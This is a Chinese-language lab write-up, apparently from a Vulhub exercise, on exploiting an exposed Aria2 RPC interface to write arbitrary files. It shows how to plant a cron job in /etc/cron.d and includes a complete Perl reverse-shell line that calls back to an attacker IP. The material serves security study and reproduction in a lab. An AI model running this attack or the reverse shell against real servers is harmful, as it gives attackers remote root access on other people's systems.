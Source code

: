 # Aria2 任意文件写入漏洞

## 漏洞描述

Aria2是一个命令行下轻量级、多协议、多来源的下载工具（支持 HTTP/HTTPS、FTP、BitTorrent、Metalink），内建XML-RPC和JSON-RPC接口。在有权限的情况下，我们可以使用RPC接口来操作aria2来下载文件，将文件下载至任意目录，造成一个任意文件写入漏洞。

参考文章：https://paper.seebug.org/120/

## 环境搭建

Vulhub启动漏洞环境：

```
docker-compose up -d
```

6800是aria2的rpc服务的默认端口，环境启动后，访问`http://your-ip:6800/`，发现服务已启动并且返回404页面。

## 漏洞复现

因为rpc通信需要使用json或者xml，不太方便，所以我们可以借助第三方UI来和目标通信，如 http://binux.github.io/yaaw/demo/ 。

打开yaaw，点击配置按钮，填入运行aria2的目标域名：`http://your-ip:6800/jsonrpc`

![image-20220221192510551](./images/202202211925680.png)

然后点击Add，增加一个新的下载任务，将另一台VPS服务器上的反弹shell脚本下载至/etc/cron.d。

在Dir的位置填写下载至的目录，File Name处填写文件名。比如，我们通过写入一个crond任务来反弹shell：

![image-20220221193153466](./images/202202211931602.png)

这时候，arai2会将恶意文件（我指定的另一台VPS服务器上的URL，为http://xxx.xxx.xxx.xxx/reverse_shell.sh）下载到/etc/cron.d/目录下，文件名为shell。而在debian中，/etc/cron.d目录下的所有文件将被作为计划任务配置文件（类似crontab）读取，等待一分钟不到即成功反弹shell：

```
* * * * * root /usr/bin/perl -e 'use Socket;$i="192.168.174.128";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

```

使用crontab -l命令查看定时任务，并不能查看到我们设置的反弹shell。

cron执行时要读取三个地方的配置文件：一是/etc/crontab，二是/etc/cron.d目录下的所有文件，三是每个用户的配置文件。

![image-20220221200226656](./images/202202212002737.png)

> 如果反弹不成功，注意crontab文件的格式，以及换行符必须是`\n`，且文件结尾需要有一个换行符（建议直接在VPS服务器上执行vim）。

![image-20220221200141108](./images/202202212001183.png)

当然，我们也可以尝试写入其他文件，更多利用方法可以参考[这篇文章](https://paper.seebug.org/120/)。

